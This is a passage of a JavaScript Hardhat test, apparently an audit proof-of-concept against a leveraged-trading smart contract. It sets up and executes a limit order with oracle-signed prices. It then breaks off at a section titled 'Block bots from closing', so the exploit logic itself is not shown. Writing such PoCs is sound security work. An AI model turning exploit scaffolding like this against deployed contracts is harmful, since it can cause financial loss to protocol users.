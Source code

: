 ```javascript
        parseEther("2"),          // leverage
        0,                        // asset id
        true,                     // direction (long)
        parseEther("0"),          // take profit price
        parseEther("1000"),       // stop loss price
        ethers.constants.HashZero // referral
      ];

      // Create the order
      await trading.connect(user).initiateLimitOrder(
        tradeInfo,            // trade info
        1,                    // order type (limit)
        parseEther("1000"),   // price
        permitData,           // permit
        user.address          // trader
      )



      // ============================================================== //
      // =================== Execute the limit order ================== //
      // ============================================================== //

      // Wait for some blocks to pass the delay
      await network.provider.send("evm_increaseTime", [10])
      for (let n = 0; n < blockDelay; n++) {
        await network.provider.send("evm_mine")
      }

      // Create the price data (the price hasn't changed)
      let priceData = [
        node.address,                                   // provider
        0,                                              // asset id
        parseEther("1000"),                             // price
        10000000,                                       // spread (0.1%)
        (await ethers.provider.getBlock()).timestamp,   // timestamp
        false                                           // is closed
      ]

      // Sign the price data
      let message = ethers.utils.keccak256(
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
          [priceData[0], priceData[1], priceData[2], priceData[3], priceData[4], priceData[5]]
        )
      );
      let sig = await node.signMessage(
        Buffer.from(message.substring(2), 'hex')
      )

      // Execute the limit order
      await trading.connect(user).executeLimitOrder(1, priceData, sig);






      // ============================================================== //
      // ================== Block bots from closing =================== //
      // ============================================================== //

      for (let i = 0; i < 5; i++) {
```